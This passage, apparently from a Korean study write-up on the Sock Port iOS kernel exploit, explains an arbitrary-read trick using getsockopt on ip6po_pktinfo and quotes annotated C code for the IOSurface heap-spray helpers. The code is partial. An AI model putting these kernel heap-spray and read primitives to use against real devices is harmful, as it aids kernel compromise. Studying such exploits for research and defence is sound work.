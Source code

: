 이후 `getsockopt` 함수를 통해 `minmtu`를 읽어 Spraying이 성공했는지 확인하고, 
성공 시 `getsockopt`를 통해 `ip6po_pktinfo` 구조체를 읽어온다. 

![image.png](pics/image%204.png)

`ip6po_pktinfo`의 크기는 0x14=20바이트이므로, 
이 방식을 통해 한 번에 대상 주소의 20바이트 데이터를 읽을 수 있다.

### Sock Port 익스플로잇에서 제공하는 IOSurface 관련 함수들을 살펴보기

`spray_IOSurface` 함수는 스프레이할 데이터와 크기만 제공해주면 된다.. 
이 함수는 `IOSurface_spray_with_gc`의 래퍼로써, 생성되는 `OSArray`에 대한 기본 설정을 제공한다.

`array_count = 32`는 32개의 스프레이 배열을 생성하여 총 32회 힙 스프레이를 수행함을 뜻하고, `array_length = 256`은 각 배열에 256개의 스프레이 데이터를 포함함을 의미한다.

```c
bool
IOSurface_spray_with_gc(uint32_t array_count, uint32_t array_length,
		void *data, uint32_t data_size,
		void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
	return IOSurface_spray_with_gc_internal(array_count, array_length, 0,
			data, data_size, callback);
}

int spray_IOSurface(void *data, size_t size) {
    return !IOSurface_spray_with_gc(32, 256, data, (uint32_t)size, NULL);
}
```

### OSUnserializeBinary XML Spraying 원리

OSUnserializeBinary XML Spraying 원리에 대해 이해하기 위해 총 7개의 핵심 단계로 이뤄 설명해놓았다.

```c
static bool
IOSurface_spray_with_gc_internal(uint32_t array_count, uint32_t array_length, uint32_t extra_count, void *data, uint32_t data_size, void (^callback)(uint32_t array_id, uint32_t data_id, void *data, size_t size)) {
    // 1. IOSurfaceRootClient 객체를 생성하여 커널과 통신
    // Make sure our IOSurface is initialized.
    bool ok = IOSurface_init();
    if (!ok) {
    	return 0;
    }
    
    // 2. 현재 사용 방식에서는 extra_count = 0이므로 extra_count는 무시할 수 있음
    // How big will our OSUnserializeBinary dictionary be?
    uint32_t current_array_length = array_length + (extra_count > 0 ? 1 : 0);
    
    // 3. Spraying Data에 필요한 XML 노드 수 계산
    size_t xml_units_per_data = xml_units_for_data_size(data_size);
    
    // 4. 여기서 여러 개의 1은 Spraying Data 외에 고정된 XML 노드를 의미하며, 구체적인 구성은 이후에 확인할 수 있음
    size_t xml_units = 1 + 1 + 1 + (1 + xml_units_per_data) * current_array_length + 1 + 1 + 1;
    
    // 5. 커널에 전달할 args를 구성하며, 여기에는 생성할 XML과 기타 설명 내용이 포함됨
    // Allocate the args struct.
    struct IOSurfaceValueArgs *args;
    size_t args_size = sizeof(*args) + xml_units * sizeof(args->xml[0]);
    args = malloc(args_size);
    assert(args != 0);
```
